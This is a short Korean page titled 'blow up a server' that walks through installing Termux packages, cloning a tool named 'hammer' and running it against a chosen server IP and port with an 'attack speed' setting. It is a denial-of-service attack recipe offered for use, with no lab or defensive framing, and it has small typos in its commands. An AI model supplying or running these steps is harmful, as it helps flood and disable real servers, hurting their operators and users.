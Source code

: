 # Termux
서버 터트리기
$ apt update && apt upgrade 
$ y
$ pkg install git 
$ pkg install python
$ git clone https://github.com/cyweb/hammer.git
$ ls 
$ cd hammer 
$ ls
$ chmod +× hammer.py
$ python3 hammer.py -s(ServerIP) -p(server Port -t (Attack Speed)
I korea ^^
